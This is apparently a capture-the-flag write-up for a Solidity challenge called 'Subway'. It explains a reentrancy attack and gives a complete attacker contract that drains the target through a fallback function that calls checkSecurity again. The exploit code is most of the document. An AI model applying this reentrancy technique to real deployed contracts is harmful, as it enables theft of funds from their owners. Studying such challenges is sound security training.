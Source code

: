 # Subway

## Solution

To validate this challenge, we need in a first time, to credit our client account and buy a ticket.
After that, we need to add in our contract a call to the function to pass the security in a fallback/ receive function, which allows when we receive some ethers to recall automatically in the same transaction, the same function.
Once the contract is empty, the challenge is validated.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/Subway.sol";

contract SubwayAttack {

    Subway originalContract;

    constructor(address payable _originalContract) public {
        originalContract = Subway(_originalContract);
    }

    function exploit() public payable {
        require (msg.value == 0.01 ether);
        address(originalContract).call.value(0.01 ether)(abi.encodeWithSignature("credit()"));
        originalContract.buyTickets(1);
        originalContract.checkSecurity();
    }

    fallback() external payable {
        originalContract.checkSecurity();
    }

}
```
